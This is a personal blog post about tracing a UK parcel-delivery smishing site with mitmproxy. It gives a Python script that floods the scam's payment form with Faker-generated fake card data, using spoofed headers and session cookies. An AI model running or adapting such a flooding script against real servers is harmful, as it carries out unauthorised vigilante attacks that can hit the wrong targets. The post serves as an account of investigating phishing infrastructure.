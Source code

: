 ```yaml
---
title: Scamming back the scammers
slug: scamming-back-the-scammers
date: 2022-04-14T17:38:00.000Z
date_updated: 2022-04-14T17:38:00.000Z
summary: Recently got a scammy text, but now their database will bleed
---
```


Disclaimer: I do not accept any responsibility for your actions, what you do or decide not to, is up to you. This blog post serves as a “Here’s what I did” opposed to a “Here’s how to do it”

Without wasting more time, let’s get to it.

Recently I got one of the texts every citizen of the UK has got at some point in their life - A parcel has attempted to be delivered - Pay for it!

![](__GHOST_URL__/content/images/2022/04/IMG_6100.jpg)
Now here’s where they went wrong.

I have too much free time and unlimited internet.

I tried to browse to their site ([local-shipstatus-gb.com](http://local-shipstatus-gb.com)) but they’re doing something clever where if you try and come to it form anything other than a mobile phone - you get a 404
![](__GHOST_URL__/content/images/2022/04/shipondesktop.jpg)

No matter what I did, I was unable to figure out a way around this on a browser.

As you can see from the below page, you can see that it looks somewhat like a post office site, and requires some input

![](__GHOST_URL__/content/images/2022/04/IMG_6104.jpg)

Now stupidly I forgot to take a screen capture of this, but here’s what I did:

1. Installed mitmproxy to my Mac and started `mitmweb`
2. Installed the Certs on my phone
3. Set the phone to use the IP address of the Mac for a Proxy
4. Browsed to the page and filled it out with Fake Data.
5. Saved the capture

From there I found the calls it was making to the web server

    'form_type': 'cc', 'ccname': ‘Tess Tickle’, 'ccnum': ‘123’, 'ccexp': ’12/25’, 'cccvv': ‘123’

Now what’s cool (not for them I guess?) is that their application doesn’t seem to be validating the numbers on the application - They are being captured then validated.

We simply need to write a python script that spams their server with the below fields:

    form_type : Name of the form
    ccname : Name on Credit Card number
    ccnum : Credit Card number
    ccexp : Expiry of the credit card
    cccvv : CVV of the Credit card

---

We have to URL encode this in python, so spaces become %20, the normal stuff.

I used:

    requests
    urllib.parse

Here’s our next issue… How do we make fake data to spam these chumps with?

Here comes Faker!

    from faker import Faker <code block>

We need to fake: Name, credit card, expiration and CVV - All of these faker can do

    from faker import Faker
    fake = Faker()

    name = fake.name()
    cnum = fake.credit_card_number()
    cexp = fake.credit_card_expire()
    cvv = fake.credit_card_security_code()

Now all we need to do is use the user-agent from our phone, and then spam the living crap out of these low life scammers

Enter our for loop:

    for s in range(100):
    cookie = ("PHPSESSID=" + sessionrandom)
    url = f'https://local-shipstatus-gb.com/Finish.php?session={urlrandom}'
    name = fake.name()
    cnum = fake.credit_card_number()
    cexp = fake.credit_card_expire()
    cvv = fake.credit_card_security_code()
    # f = { 'username' : name, 'password' : cnum, 'client_id' : cexp, 'client_secret' : cvv}
    f = {'form_type': 'cc', 'ccname': name, 'ccnum': cnum, 'ccexp': cexp, 'cccvv': cvv}
    urllib.parse.urlencode(f)
    safe_string = urllib.parse.urlencode(f)

    payload = safe_string
    headers = {
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'content-type': 'application/x-www-form-urlencoded',
    'origin': 'https://local-shipstatus-gb.com',
    #  'cookie':'PHPSESSID=134ddeae9b576bc8daa0eb412ced6945',
    'cookie': cookie,
    'content-length': '72',
    'accept-language': 'en-GB,en;q=0.9',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15',
    # 'user-agent': agent,
    'referer': url,
    'accept-encoding': 'gzip, deflate, br'
    }

    response = requests.request("POST", url, headers=headers, data=payload)

    if response.status_code == 200:
    print("ok")
    elif response.status_code != 200:
    print(response.status_code)

If you want to read a full write up, and see how you could (not saying you should) launch an attach and their vulnerabilities:
[

GitHub - userbradley/fake-postoffice-spammer

Contribute to userbradley/fake-postoffice-spammer development by creating an account on GitHub.

![](https://github.githubassets.com/favicons/favicon.svg)GitHubuserbradley

![](https://opengraph.githubassets.com/0f1b4fa6e1bd7a3e0794c27bb6b334458e4993c864543cd9bd7ae4c414d6435f/userbradley/fake-postoffice-spammer)
](<https://github.com/userbradley/fake-postoffice-spammer>)
